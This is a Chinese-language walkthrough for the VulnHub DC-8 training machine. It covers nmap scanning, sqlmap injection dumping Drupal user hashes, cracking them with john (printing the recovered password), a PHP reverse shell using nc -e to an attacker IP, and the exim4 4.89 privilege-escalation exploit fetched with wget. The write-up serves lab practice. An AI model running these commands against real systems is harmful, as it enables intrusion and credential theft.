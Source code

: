# DC 8

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-8,367/

## 知识点

- suid-exim4提权
## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.158
```

![](./img/vulnhub-dc8-1.png)
## 漏洞利用

在左侧链接发现注入点

![](./img/vulnhub-dc8-2.png)

```
sqlmap -u http://10.30.0.158/?nid=1 --dbs --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db --tables --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db -T users --dump --batch
```

![](./img/vulnhub-dc8-3.png)

得到 admin 和 john 用户的 hash 密码, 根据提示使用john来爆破

```bash
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
john pass.txt  # 默认用/usr/share/john/password.lst字典
```

![](./img/vulnhub-dc8-4.png)

爆出johb的密码，admin无法爆破

```
username : john
password : turtle
```

后台登陆地址：http://xxxxxx/user/login/

信息收集，在contact us发现能写入php的地方，尝试写入phpinfo

![](./img/vulnhub-dc8-5.png)

命令成功执行，尝试写入反弹shell一句话

```bash
<?php system("nc -e /bin/sh 10.30.0.81 4444")?>

nc -lvnp 4444 # kali
```

反弹成功

```bash
python -c "import pty;pty.spawn('/bin/bash')"
find / -perm -u=s 2>/dev/null
```


![](./img/vulnhub-dc8-6.png)

查看exim4
```bash
/usr/sbin/exim4 --version # 4.89
searchsploit exim 4.89
searchsploit -m 46996 #注意在kali上把文件改为unix格式

vi 46996.sh
:!set ff=unix

python -m SimpleHTTPServer  8080 # kali
cd /tmp # 靶机在tmp目录下进行下载接受，防止其他位子没有权限
wget http://10.30.0.81:8080/46996.sh # 靶机
chmod +x 46996.sh
./46996.sh -m netcat
whoami
```

![](./img/vulnhub-dc8-7.png)
![](./img/vulnhub-dc8-8.png)
## 参考链接
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/amgflh
- http://www.kxsy.work/2021/08/12/shen-tou-dc-8/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC8-WalkThrough.md